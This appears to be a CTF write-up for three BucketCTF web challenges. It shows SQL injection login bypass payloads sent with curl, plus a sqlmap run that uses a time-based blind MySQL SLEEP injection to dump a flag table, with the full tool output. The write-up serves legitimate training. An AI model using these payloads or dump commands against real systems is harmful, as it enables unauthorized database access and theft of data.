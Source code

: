 ```yaml
---
author: "Asad Ullah"
title: "SQLi 1, 2, 3  - BucketCTF"
description: 
summary: Write-up on web sql injections easy, medium and hard.
date: 2023-04-10T05:04:24+05:00
Section: write-ups
categories:
- writeup
- web
- ctftime.org

tags:
- bucketctf
- sqli
- payload
- blind sqli

draft: True

---
```


&nbsp;


## Web - SQLi - 1

{{< 
ctf
name="SQLi - 1" 
difficulty="Easy"  
points="200"
category="web"
>}}

&nbsp;

### Description

This is my first time using SQL. Its such a great and simple tool.

### Approach

I attempted several payloads, but ultimately, this one worked: `' or 1=1--`

```bash
┌──(kali㉿iasad)-[~/CTFs/BucketCTF]
└─$ curl -d "userName=' or 1=1--&password=' or 1=1--" 213.133.103.186:7763/login

bucket{s1mp13_sq11_ed0176a}
```

![Untitled](/write-ups/ctftime/bucket/sqli-1.webp)

&nbsp;

---

**Flag: `bucket{s1mp13_sq11_ed0176a}`**

---

&nbsp;

&nbsp;

## Web - SQLi - 2

{{< 
ctftime 
name="SQLi - 2" 
difficulty="Medium"  
points="200"
category="web"
>}}

&nbsp;

### Description

Ok I upgrade my security by preventing you from using semicolons. A StackOverflow thread told me that would work.

### Approach

Again, I attempted several payloads but found success with this one: `' OR 1 -- -`

```bash
┌──(kali㉿iasad)-[~/CTFs/BucketCTF]
└─$ curl -d "userName=' OR 1 -- -&password=' OR 1 -- -" 213.133.103.186:5900/login

bucket{m3d1um_sq11_693f79541}
```

![Untitled](/write-ups/ctftime/bucket/sqli-2.webp)

&nbsp;

---

**Flag: `bucket{m3d1um_sq11_693f79541}`**

---

&nbsp;

&nbsp;

## Web - SQLi - 3

{{< 
ctftime 
name="SQLi - 3" 
difficulty="Hard"  
points="290"
category="web"
>}}

&nbsp;

### Description

Finally! I moved the secret into a **COMPLETELY** different table. There is **NO** way you can find it now.

### Approach

After attempting some payloads manually without success, I used `SQLmap` and successfully retrieved the flag. The database was `MySQL` and the parameters were vulnerable to `blind SQL Injection`

&nbsp;

***Breakdown of options in the SQLmap command***

- **`-u`** specifies the target URL to be scanned.
- **`-data`** provides the POST data to be sent with the request.
- **`-p`** indicates the parameters to be tested for SQL injection.
- **`-method`** specifies the HTTP method used for the request.
- **`-dump`** dumps the contents of the database after a successful SQLi attack.

```bash
┌──(kali㉿iasad)-[~/CTFs/Tools/sqlmap-dev]
└─$ python3 sqlmap.py -u "http://213.133.103.186:6409/login" --data "userName=1&password=2" -p "userName,password" --method POST --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.4.6#dev}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal.
[*] starting @ 15:35:20 /2023-04-10/

[15:35:21] [INFO] resuming back-end DBMS 'mysql' 
[15:35:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: userName (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=1' AND (SELECT 5012 FROM (SELECT(SLEEP(5)))lPED) AND 'eyGp'='eyGp&password=2
---
[15:35:21] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[15:35:21] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[15:35:21] [INFO] fetching current database
[15:35:22] [INFO] resumed: railway
[15:35:22] [INFO] fetching tables for database: 'railway'
[15:35:22] [INFO] fetching number of tables for database 'railway'
[15:35:22] [INFO] resumed: 2
[15:35:22] [INFO] resumed: Flag
[15:35:22] [INFO] resumed: Users
[15:35:22] [INFO] fetching columns for table 'Flag' in database 'railway'
[15:35:22] [INFO] resumed: 2
[15:35:22] [INFO] resumed: id
[15:35:22] [INFO] resumed: value
[15:35:22] [INFO] fetching entries for table 'Flag' in database 'railway'
[15:35:22] [INFO] fetching number of entries for table 'Flag' in database 'railway'
[15:35:22] [INFO] resumed: 1
[15:35:22] [WARNING] (case) time-based comparison requires larger statistical model, please wait.............................. (done)                       
[15:35:38] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[15:36:39] [INFO] adjusting time delay to 2 seconds due to good response times
bucket{j01
[15:37:31] [ERROR] invalid character detected. retrying..
[15:37:31] [WARNING] increasing time delay to 3 seconds
n5_m4k3_n0_53
[15:38:58] [ERROR] invalid character detected. retrying..
[15:39:30] [ERROR] invalid character detected. retrying..
[15:39:30] [WARNING] increasing time delay to 6 seconds
n53_a5ed15}
[15:42:30] [ERROR] invalid character detected. retrying..
[15:42:30] [WARNING] increasing time delay to 8 seconds


[*] ending @ 15:47:24 /2023-04-10/
```

The flag was printed in pieces due to time-based SQL injection attack.

&nbsp;

---

**Flag: `bucket{j01n5_m4k3_n0_53n53_a5ed15}`**

---

&nbsp;

&nbsp;

